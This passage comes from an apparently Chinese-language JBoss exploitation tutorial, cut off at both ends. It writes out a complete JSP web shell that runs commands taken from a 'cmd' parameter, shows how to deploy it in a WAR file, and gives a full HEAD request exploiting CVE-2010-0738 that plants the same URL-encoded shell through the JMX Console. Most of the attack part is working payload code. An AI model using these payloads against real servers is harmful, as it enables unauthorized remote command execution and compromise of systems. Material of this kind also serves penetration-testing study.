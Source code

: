 2. 部署war包


![image-20241115162542363](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115162542363.png)
* p1为：部署的war包名字
* p2为：上传的文件的文件名
* p3为：上传文件的文件格式
* p4为：上传文件中的内容（jsp木马）



```
<%@ page import="java.io.*" %>
<% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s
= null; try { Process p = Runtime.getRuntime().exec(cmd); BufferedReader sI = new BufferedRe
ader(new InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output
+= s +"\r\n"; } } catch(IOException e) { e.printStackTrace(); } } out.println(output);%>

```

3. 访问`http://your-ip:8080/job1/job1.jsp`即可


![image-20241115163147846](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115163147846.png)
## CVE\-2010\-0738（JMX Console安全认证绕过）



```
	利用原理与CVE-2007-1036相同，只不过利用HEAD请求方法绕过GET和P0ST请求的限制
	影响版本：jboss4.2.0-jboss4.3.0

```

1. 抓包将GET请求换为HEAD，构造如下请求头



```
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRep
ository&methodIndex=5&arg0=../jmx-console.war/&arg1=shell&arg2=.jsp&arg3=%3c%25%40%20%70%61%
67%65%20%69%6d%70%6f%72%74%3d%22%6a%61%76%61%2e%69%6f%2e%2a%22%20%25%3e%20%0d%0a%3c%25%20%53%74%72%69%6e%67%20%63%6d%64%20%3d%20%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%63%6d%64%22%29%3b%20%53%74%72%69%6e%67%20%6f%75%74%70%75%74%20%3d%20%22%22%3b%20%69%66%28%63%6d%64%20%21%3d%20%6e%75%6c%6c%29%20%7b%20%53%74%72%69%6e%67%20%73%20%3d%20%6e%75
%6c%6c%3b%20%74%72%79%20%7b%20%50%72%6f%63%65%73%73%20%70%20%3d%20%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%63%6d%64%29%3b%20%42%75%66%66%65%72%65%64%52%65%61%64%65%72%20%73%49%20%3d%20%6e%65%77%20%42%75%66%66%65%72%65%64%52%65%61%64%65%72
%28%6e%65%77%20%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%70%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%3b%20%77%68%69%6c%65%28%28%73%20%3d%20%73%49%2e%72%65%61%64%4c%69%6e%65%28%29%29%20%21%3d%20%6e%75%6c%6c%29%20%7b%20%6f%75%74%70%75%74%20%2b%3d%20%73%20%2b%22%5c%72%5c%6e%22%3b%20%7d%20%7d%20%63%61%74%63%68%28%49%4f%45%78%63%65%70%74%69%6f%6e%20%65%29%20%7b%20%65%2e%70%72%69%6e%74%53%74%61%63%6b%54%72%61%63%65%28%29%3b%20%7d%20%
7d%20%6f%75%74%2e%70%72%69%6e%74%6c%6e%28%6f%75%74%70%75%74%29%3b%25%3e&arg4=True HTTP/1.1

```
